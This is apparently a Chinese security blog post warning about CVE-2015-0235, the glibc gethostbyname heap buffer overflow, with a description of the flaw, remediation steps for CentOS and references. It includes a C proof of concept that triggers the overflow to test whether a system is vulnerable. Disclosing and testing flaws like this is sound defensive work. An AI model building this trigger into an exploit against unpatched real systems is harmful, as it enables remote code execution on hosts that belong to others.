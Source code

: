 ```yaml
---
layout: post
title: CVE-2015-0235,glibc缓冲区溢出漏洞漏洞预警
categories: [security]
tags: [Linux,glibc]
---
```


####漏洞详情

    A heap-based buffer overflow was found in glibc's
    __nss_hostname_digits_dots() function, which is used by the gethostbyname()
    and gethostbyname2() glibc function calls. A remote attacker able to make
    an application call either of these functions could use this flaw to
    execute arbitrary code with the permissions of the user running the
    application. (CVE-2015-0235)

    代码审计公司Qualys的研究人员在glibc库中的__nss_hostname_digits_dots()
    函数中发现了一个缓冲区溢出的漏洞，这个bug可以经过 gethostbyname*()函数被本地或者远程的触发。

####漏洞POC

    #include <netdb.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <errno.h>
    #define CANARY "in_the_coal_mine"
    struct {
    char buffer[1024];
    char canary[sizeof(CANARY)];
    } temp = { "buffer", CANARY };
    int main(void) {
    struct hostent resbuf;
    struct hostent *result;
    int herrno;
    int retval;
    /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
    char name[sizeof(temp.buffer)];
    memset(name, '0', len);
    name[len] = '\0';
    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
    if (strcmp(temp.canary, CANARY) != 0) {
        puts("vulnerable");
        exit(EXIT_SUCCESS);
    }
    if (retval == ERANGE) {
        puts("not vulnerable");
        exit(EXIT_SUCCESS);
    }
    puts("should not happen");
    exit(EXIT_FAILURE);
    }


####漏洞修复

主机：Centos 社区已经有了update见图
![](https://40.media.tumblr.com/feba793cc3f61d0479480f7b81c12c0f/tumblr_nivgs1OLCg1r68ev5o1_540.png)

修复后执行POC
![](https://41.media.tumblr.com/62edfec675969ac802dc39ff4e607c7c/tumblr_nivgs1OLCg1r68ev5o2_400.png)


`官方也给出了提示：Before applying this update, make sure all previously released errata
relevant to your system have been applied.
生产上应当有个缓冲期，毕竟exp还没发出`


####引用
[url1](http://bobao.360.cn/learning/detail/224.html)
[url2](http://www.openwall.com/lists/oss-security/2015/01/27/9)

